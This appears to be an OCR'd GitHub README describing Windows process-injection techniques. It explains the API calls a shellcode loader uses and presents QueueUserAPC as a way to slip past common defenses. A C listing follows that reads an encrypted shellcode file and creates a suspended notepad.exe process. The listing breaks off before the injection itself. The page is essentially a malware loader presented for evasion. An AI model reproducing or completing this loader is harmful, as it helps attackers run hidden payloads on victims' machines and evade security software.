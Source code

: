 **VirtualAlloc**: Allocates memory for the payload, typically using MEM_COMMIT and PAGE_READWRITE to allow writing to the allocated memory.

**RtlMoveMemory**: Copies the payload (malicious code) from the file or buffer into the newly allocated memory region.
VirtualProtect: Changes the protection of the allocated memory from PAGE_READWRITE to PAGE_EXECUTE_READ to allow the payload to execute.

**CreateThread**: Starts a new thread, executing the payload in memory. This is the method used to run the injected code.
WaitForSingleObject: Pauses the current thread until the thread running the payload finishes execution, ensuring the payload completes.

**QueueUserAPC**: This function queues an Asynchronous Procedure Call (APC) to a specific thread. If used with a thread in an alertable state (such as one created with SleepEx or WaitForSingleObjectEx), the payload will be executed when the thread enters that state. This technique is commonly used to inject code into a thread in a less obvious manner, bypassing some common defenses.

```bash
#include <windows.h>
#include <windows.h>
#include <stdio.h>

// Function to read a binary file
unsigned char* readBinaryFile(const char* fileName, SIZE_T* size) {
    FILE* file = fopen(fileName, "rb");
    if (!file) {
        printf("Could not open file %s\n", fileName);
        return NULL;
    }

    fseek(file, 0, SEEK_END);
    *size = ftell(file);
    fseek(file, 0, SEEK_SET);

    unsigned char* buffer = (unsigned char*)malloc(*size);
    if (!buffer) {
        printf("Memory allocation failed\n");
        fclose(file);
        return NULL;
    }

    fread(buffer, 1, *size, file);
    fclose(file);
    return buffer;
}

int main() {
    // Read shellcode from the binary file (e.g., loaderEncrypted.bin)
    const char* fileName = "loaderEncrypted.bin";
    SIZE_T shellcodeSize;
    unsigned char* shellcode = readBinaryFile(fileName, &shellcodeSize);
    
    if (!shellcode) {
        printf("Failed to read the binary file.\n");
        return -1;
    }

    // Create a suspended Notepad process
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };
    if (!CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        printf("Failed to create process\n");
        free(shellcode);
        return -1;
```